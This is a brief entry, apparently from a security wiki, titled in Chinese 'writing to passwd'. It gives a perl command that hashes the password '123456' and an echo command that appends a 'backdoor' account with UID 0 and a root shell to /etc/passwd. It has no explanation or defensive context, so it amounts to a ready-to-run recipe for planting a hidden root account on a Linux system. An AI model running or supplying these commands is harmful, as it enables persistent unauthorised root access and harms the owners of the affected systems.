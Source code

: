 ## passwd写入

```bash
perl -e 'print crypt("123456", "AA"). "\n"'
echo "backdoor:AASwmzPNx.3sg:0:0:me:/root:/bin/bash">>/etc/passwd

```

![](images/security_wiki/15905814013186.png)


![](images/security_wiki/15905814053023.png)


